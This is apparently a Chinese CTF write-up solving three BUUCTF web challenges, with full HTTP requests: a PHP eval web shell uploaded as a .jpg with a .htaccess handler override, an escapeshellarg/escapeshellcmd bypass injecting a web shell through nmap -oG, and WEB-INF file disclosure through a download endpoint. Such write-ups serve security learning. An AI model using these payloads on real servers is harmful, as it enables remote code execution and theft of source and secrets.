




# 2021/07/16

## BabyUpload

> GXYCTF 2019

### 题目

这道题和[你传你M呢](#你传你M呢)是同一类型的题，都是上传`webshell.jpg`配合`.htaccess`来解析控制服务器

### payload

```http
POST / HTTP/1.1
Host: 7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Length: 336
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzMAUFel4paiiSDAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=adef9ced961114c0cb0d697c6bd8e03e
Connection: close

------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="uploaded"; filename="bme.jpg"
Content-Type: image/jpeg

<script language='php'>eval($_POST['bme']);</script>
------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="submit"

涓婁紶
------WebKitFormBoundaryzMAUFel4paiiSDAr--
```

```http
POST / HTTP/1.1
Host: 7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Length: 430
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzMAUFel4paiiSDAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=adef9ced961114c0cb0d697c6bd8e03e
Connection: close

------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

<FilesMatch "bme.jpg">
SetHandler application/x-httpd-php #匹配到的文件按照php解析
AddHandler php5-script .jpg #其他按照jpg解析
</FilesMatch>
------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="submit"

涓婁紶
------WebKitFormBoundaryzMAUFel4paiiSDAr--
```

## Online Tool

> BUUCTF 2018

### 题目

直接给了源码

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

题是代码执行，考察的是[`escapeshellarg`和`escapeshellcmd`](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)联合使用的问题

> `escapeshellarg` — 把字符串转码为可以在 shell 命令里使用的参数
>
> **功能** **：escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号)**

> `escapeshellcmd` — shell 元字符转义
>
> **功能：`escapeshellcmd()` 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 [`exec()`](http://php.net/manual/zh/function.exec.php) 或 [`system()`](http://php.net/manual/zh/function.system.php) 函数，或者 [`执行操作符`](http://php.net/manual/zh/language.operators.execution.php) 之前进行转义。**
>
> 反斜线（\）会在以下字符之前插入： *&#;`|\*?~<>^()[]{}$*, *\x0A* 和 *\xFF\*。 \*’* 和 *“* 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 *%* 和 *!* 字符都会被空格代替

本身是安全的的，但是合在一起使用就不安全，以这道题为例，很明显是一个**命令执行**的题，`nmap`可以通过`-oG`参数写入`webshell`，但是由于`escapeshellarg`和`escapeshellcmd`的转义，会导致常规的注入失败，举个例子，如果我们正常注入`<?php eval($_POST['bme']);?> -oG 1.php`，经过这两个函数会变成这样

- `'<?php eval($_POST['\''bme'\'']);?> -oG 1.php'`

这一个首先是将两个`'`进行转义，但是转义之后，前后无法生成字符串，这时候就需要将他们用`'`括起来

- `'\<\?php eval\(\$_POST\['\\''bme'\\''\]\)\;\?\> -oG 1.php'`

而第二个则是将特殊字符进行转义，同时对未配对的单引号进行转义，看起来很乱，但是在`shell`里跑一下就知道了



我们发现有一部分由于第二个函数，导致了部分逃逸`\\`，`bme`参数也消失了，而我们就是要利用`'`在第一遍被转义，第二遍逃逸这种特性，来进行绕过，我们试一试`'<?php eval($_POST['bme']);?> -oG 1.php'`

- `''\''<?php eval($_POST["bme"]);?>  -oG 1.php'\'''`
- `''\\'' \<\?php eval\(\$_POST\["bme"\]\)\;\?\> -oG 1.php '\\'''`

在`shell`中的执行效果是这样的



我们发现，在`shell`中，许多`''`实现了逃逸，由于`\\`反斜线把自己转移了导致了`'`的逃逸

### payload

```
?host=' <?php eval($_POST["bme"]);?> -oG 1.php '
```

## Easy Java

> RoarCTF 2019

### 题目

题目很明显`Java`写的，一进来是一个登录页面



先点进去`help`，发现一个很典型的**Java文件下载**



> WEB-INF主要包含一下文件或目录   
>
> - `/WEB-INF/web.xml`：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则   
> - `/WEB-INF/classes/`：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中   
> - `/WEB-INF/lib/`：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件   /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。   
> - `/WEB-INF/database.properties`：数据库配置文件 
>
> **漏洞检测以及利用方法：通过找到`web.xml`文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码**

先试试`WEB-INF`，但是`GET请求`怎么都不行，换成`POST请求`才可以，打开文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
        <servlet-class>com.wm.ctf.IndexController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>IndexController</servlet-name>
        <url-pattern>/Index</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>LoginController</servlet-name>
        <servlet-class>com.wm.ctf.LoginController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>LoginController</servlet-name>
        <url-pattern>/Login</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>DownloadController</servlet-name>
        <servlet-class>com.wm.ctf.DownloadController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>

</web-app>
```

发现了`flag`所在的包，继续打开`classes`，用**jadx**反编译`class`文件，base64解码即可得到`flag`

```java
import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet(name = "FlagController")
public class FlagController extends HttpServlet {
  String flag = "ZmxhZ3s4MTkzYWRlYy1jNzQ3LTQwODktODhlMS04NTA5MmMyNTRlZTN9Cg==";
  
  protected void doGet(HttpServletRequest paramHttpServletRequest, HttpServletResponse paramHttpServletResponse) throws ServletException, IOException {
    PrintWriter printWriter = paramHttpServletResponse.getWriter();
    printWriter.print("<h1>Flag is nearby ~ Come on! ! !</h1>");
  }
}
```

### payload

```http
POST /Download HTTP/1.1
Host: 0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn/Download?filename=help.docx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; JSESSIONID=58F821D5D809EB526A2D0EFAA010CD8B
Connection: close

filename=WEB-INF%2Fweb.xml
```

```http
POST /Download HTTP/1.1
Host: 0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Length: 66
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn/Download?filename=help.docx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; JSESSIONID=58F821D5D809EB526A2D0EFAA010CD8B
Connection: close

filename=WEB-INF%2Fclasses%2Fcom%2Fwm%2Fctf%2FFlagController.class
```